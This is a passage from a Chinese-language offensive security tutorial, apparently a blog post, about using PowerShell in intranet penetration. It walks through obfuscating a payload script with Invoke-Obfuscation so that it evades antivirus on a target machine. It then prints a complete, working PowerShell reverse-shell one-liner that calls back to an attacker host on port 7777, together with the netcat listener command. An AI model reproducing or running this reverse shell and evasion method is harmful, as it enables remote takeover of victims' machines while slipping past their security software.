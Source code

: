 Invoke-Obfuscation  

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaNaczlVIa65KW9EjV7zgfxQib8jics8LplOYmSrbcE1vwbRGjWibY5cQdN0ibrTPFxe5o7IWMayAcZbg/640?wx_fmt=png)  

2. 接下来设置 ps1 文件进行混淆，按图操作即可

set scriptpath E:\...\Invoke-Obfuscation_PowerShell\payload.ps1 

输入 ENCODING  就会列出以下几种编码方式  

encoding 

1

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaNaczlVIa65KW9EjV7zgfx2LUVhWKS1D6IyibrqQSfst4HIzpEGkRgRDUu90339Pllib1ts60Ddd1w/640?wx_fmt=png)

3. 输出文件: out 2.ps1

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaNaczlVIa65KW9EjV7zgfxtT66hVA7AcvT1Q5Xlib9I5D0hOicZiaOtEJj6pe45WS2XyiciaQuWOK9b3g/640?wx_fmt=png)  

4. 接着我们去目标机器运行生成的 2.ps1

去运行上线：./2.ps1

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaNaczlVIa65KW9EjV7zgfxMiaemjxZA6cQ9C4Tvq2FbONMfBsydxGhyfL11NM65ibyXK20sW2tByjA/640?wx_fmt=png)

可以看到无拦截

同样执行上线

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaNaczlVIa65KW9EjV7zgfxSSzu7RhBRe5nCS1m4KZia74Qm3nicHtzjt8lk8PgYdAotnAicPFJh4N6g/640?wx_fmt=png)  

### 07. 关于 Powershell 在实际应用中的小技巧：

在实际渗透中，对 cmd 的防范比 powershell 更加严格，所以我们在操作中通过弹一个 powershell 出来执行，更加方便安全。

我们在目标机器执行

```
powershell -c "$client = New-Object Net.Sockets.TCPClient('192.168.52.134',7777);$stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback=(iex $data 2>&1 | Out-String );$sendata =$sendback+'PS >';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendata);$leng=$sendbyte.Length;$stream.Write($sendbyte,0,$leng);$stream.Flush()};$client.Close()"

```

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaNaczlVIa65KW9EjV7zgfxOfstKAOZicTUZdfMicEMfGLUhzuBgQ2qRMFMx2ndVT9PRpAEkzbXZGicw/640?wx_fmt=png)  

此时我们 VPS 监听便弹回了一个目标机器 powershell

vps 监听  nc -lvp 7777

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaNaczlVIa65KW9EjV7zgfxuTtU9O6DkNZL2mSDFLVRAIJv7npGnQc0CfK1BlWXg4ZzQmoaKJBxtw/640?wx_fmt=png)

参考：

https://www.freebuf.com/articles/system/227467.html

https://www.jianshu.com/p/fb078a99e0d8

https://blog.csdn.net/zhangge3663/article/details/111945373

总结：powershell 在内网渗透中应用广泛，远不止免杀与信息收集，以后会出更多的红蓝对抗系列给大家。本文介绍了执行策略问题与绕过策略方式，以及命令混淆与代码混淆来达到绕过 AV 上线的方式，站在前人的肩膀上思考并看问题。各位有任何问题关注我们公众号私信或联系到我即可，大家有兴趣可以和我们一起研究与探讨技术。